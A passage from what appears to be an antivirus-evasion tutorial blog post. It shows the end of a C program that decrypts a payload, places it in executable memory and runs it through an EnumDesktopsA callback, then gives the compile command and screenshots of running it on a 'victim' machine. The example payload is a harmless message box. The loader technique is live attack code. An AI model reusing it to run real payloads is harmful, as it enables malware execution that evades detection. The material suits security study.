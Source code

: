 ```cpp
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", decrypted[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, decrypted, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)NULL);
  return 0;
}
```

As you can see, as usually used `meow-meow` messagebox payload. And added printing just for checking corectness.    

### demo

Let's go to compile our "malware":      

```bash
x86_64-w64-mingw32-gcc -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

![av-evasion](/assets/images/91/2023-03-25_13-49.png){:class="img-responsive"}      

Then, run it at the victim's machine:     

![av-evasion](/assets/images/91/2023-03-25_13-52.png){:class="img-responsive"}      
